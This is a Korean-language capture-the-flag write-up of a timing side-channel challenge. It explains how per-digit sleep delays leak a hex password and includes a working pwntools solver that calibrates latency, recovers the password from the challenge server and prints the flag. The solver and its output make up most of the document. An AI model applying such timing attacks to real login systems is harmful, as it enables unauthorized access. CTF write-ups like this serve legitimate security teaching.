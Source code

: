 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-17-24-22.png)

첨부파일

[CODE BLOCK](https://rdmd.readme.io/docs/code-blocks)

# **Write-Up**

guess_password함수에서 time.sleep을 통해 password를 유추할 수 있다. 문제서버에서 순차적으로 (password + 1)*0.3초동안 sleep을 한다.

```py
time.sleep(0.3 * (int(password[i], 16)+1))
```

역으로 계산하면 다음과 같이 나타낼 수 있다.

```py
password = (sleep된 초//0.3) - 1
```

하지만, 문제서버의 1초와 입력과 출력사이의 초는 오차가 있기 때문에 1번 메뉴("(1) Calibrate Timing")를 이용하여 평균 오차를 구해야한다.

```py
def calibrate():
    print("Press enter to begin a 1 second delay.")
    input()
    time.sleep(1)
    print("1 second has passed")
```

즉, 다음과 같은 python코드로 flag를 획득할 수 있다. (약간의 오차로 인하여 password와 추측된 password가 일치하지 않을 수 있지만, 반복하면 얻을 수 있다.)

```py
from pwn import *
import time, numpy, tqdm

Calibrate_Timing = '1'
Guess_Password = '2'
guessed_password = ''
delay_total_time = []

p = remote('oreos.imaginary.ml', 3000)
# Calibrate Timing
print('Delay calculation')
for i in tqdm.tqdm(range(10)):
    p.recvuntil('(2) Guess Password\n')
    p.sendline(Calibrate_Timing)
    p.recvuntil('delay.\n')
    p.sendline('')
    start_time = time.time()
    p.recvuntil('passed\n\n')
    total_time = time.time() - start_time
    delay_time = total_time - 1
    delay_total_time.append(delay_time)
delay_time = numpy.mean(delay_total_time)

# Guess Trial 1
print('Guess Trial 1')
p.recvuntil('(2) Guess Password\n')
p.sendline(Guess_Password)
p.recvuntil('?\n')
p.sendline('0')
for i in tqdm.tqdm(range(8)):
    start_time = time.time()
    if i == 7: p.recvuntil('Trial 2\n')
    else: p.recvuntil('?\n')
    total_time = time.time() - start_time - delay_time
    if total_time < 0: total_time = '0'
    else:
        if int(str(total_time)[3:4]) > 7: total_time = round(total_time, 1)
        total_time = hex(int(total_time//0.3) - 1)[2:]
    if 'x' in total_time: total_time = '0'
    guessed_password += total_time
    if i < 7: p.sendline('0')
print('Gussed password\t{}'.format(guessed_password))

# Guess Trial 2
print('Guess Trial 2')
for i in tqdm.tqdm(range(len(guessed_password))):
    p.recvuntil('?\n')
    p.sendline(guessed_password[i])
print(p.recv().decode().strip())

[Output]
[x] Opening connection to oreos.imaginary.ml on port 3000
[x] Opening connection to oreos.imaginary.ml on port 3000: Trying 52.156.67.141
[+] Opening connection to oreos.imaginary.ml on port 3000: Done
Delay calculation
100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 20/20 [00:26<00:00,  1.34s/it]
Guess Trial 1
100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 8/8 [00:21<00:00,  2.64s/it]
Gussed password e3118ed4
Guess Trial 2
100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 8/8 [00:01<00:00,  6.55it/s] 
ictf{t!m!ng_!5_3v3ry+h!ng}
[*] Closed connection to oreos.imaginary.ml port 3000
```


# **FLAG**

**ictf{t!m!ng_!5_3v3ry+h!ng}**